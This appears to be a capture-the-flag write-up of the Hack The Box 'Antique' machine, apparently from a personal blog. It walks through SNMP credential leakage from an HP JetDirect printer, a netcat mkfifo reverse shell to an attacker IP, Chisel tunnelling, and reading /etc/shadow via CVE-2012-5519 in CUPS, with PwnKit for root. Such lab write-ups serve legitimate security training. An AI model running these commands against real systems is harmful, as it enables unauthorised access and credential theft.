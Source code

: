 ```yaml
---
title: Antique
published: true
layout: post
---
```


<br />

---------------
Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/j4GtGBayHNo?si=1rNCGisJUXNyZgNZ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Antique/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **23/tcp**
+ **161/udp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Antique/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **23/tcp telnet**
+ **161/udp SNMPv1 server (public)**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

<br />

The scan reports nothing.

<br />

------

<br />
### Foothold

This machine is... weird. I'm used to exploting websites and then connecting via SSH. However this machine has neither of both. We are facing a Telnet server and an SNMP server. Anyway, this machine is not hard, we just have to do our research.

<br />

When trying to connect to **Telnet**, we are **asked for a password** but also we can see a banner that indicates us something about an ***HP JetDirect***:

```bash
telnet 10.10.11.107
```

![](/assets/Antique/3.png)
<br />
<br />
<br />

When trying to connect to **SNMP** using the ***public* community string**, we get this string:

```bash
snmpwalk -c "public" -v1 -t 10 10.10.11.107
```

![](/assets/Antique/4.png)
<br />
<br />
<br />

With this information I was completely lost, so I started to **search in Google** for this printer, the telnet and SNMP services. Until I found this website:

![](/assets/Antique/5.png)
<br />
<br />
<br />

In this website, we can find this section, which explains the way to get the **JetDirect's password**:

![](/assets/Antique/6.png)
<br />
<br />
<br />

Let's try it:

```bash
snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

![](/assets/Antique/7.png)
<br />
<br />
<br />

Great, let's now **copy the output and translate it from hexademical**, frmo which we can see a long string, however the first readable part is: ***P@ssw0rd@123!!123***:

![](/assets/Antique/8.png)
<br />
<br />
<br />

Let's try this password in Telnet:
<br />
![](/assets/Antique/9.png)
<br />
<br />
<br />

We can see that we have a **command to execute system commands**, so we can send us a **reverse shell**. I tried a few and only the ***nc mkfifo*** one worked:

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.10 4444 >/tmp/f
```

![](/assets/Antique/10.png)

![](/assets/Antique/11.png)
<br />
<br />
<br />

Now we only need to grab the **user flag**:
<br />
![](/assets/Antique/12.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation of this machine **isn't intended to get command execution as root**, however I will still demonstrate how to get it.

<br />

After a bit of enumeration I discover that the **port 631/tcp** is open, so I'm going to download and use [**Chisel**](https://github.com/jpillora/chisel/releases/tag/v1.10.0) to set up local port forwarding, first we have to execute it on our machine:

```bash
chisel server --port 8080 --reverse
```

![](/assets/Antique/13.png)
<br />
<br />
<br />

Now we have to execute it on the pwned machine:

```bash
./chisel client 10.10.16.10:8080 1234:127.0.0.1:631 > /dev/null 2>&1 
```

![](/assets/Antique/14.png)
<br />
<br />
<br />

We can now connect to it and inspect it to get a **version number**:

![](/assets/Antique/15.png)
<br />
<br />
<br />

This version number leads us to **CVE-2012-5519**, which leads to this [GitHub project](https://github.com/p1ckzi/CVE-2012-5519/tree/main):

![](/assets/Antique/16.png)
<br />
<br />
<br />

Let's try what it says in the pwned machine:

```bash
cupsctl ErrorLog=/etc/shadow
curl 127.0.0.1:631/admin/log/error_log
```

![](/assets/Antique/17.png)
<br />
<br />
<br />

It worked perfectly, however **rockyou.txt doesn't contain the password**, we could get the root flag this way, but we want root command execution, so let's go for it.

<br />

Resuming our enumeration, we can see that ***pkexec*** has **SUID privileges**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![](/assets/Antique/18.png)
<br />
<br />
<br />

The only thing we have to do is transfer the **PwnKit** and run it:

![](/assets/Antique/19.png)
<br />
<br />
<br />
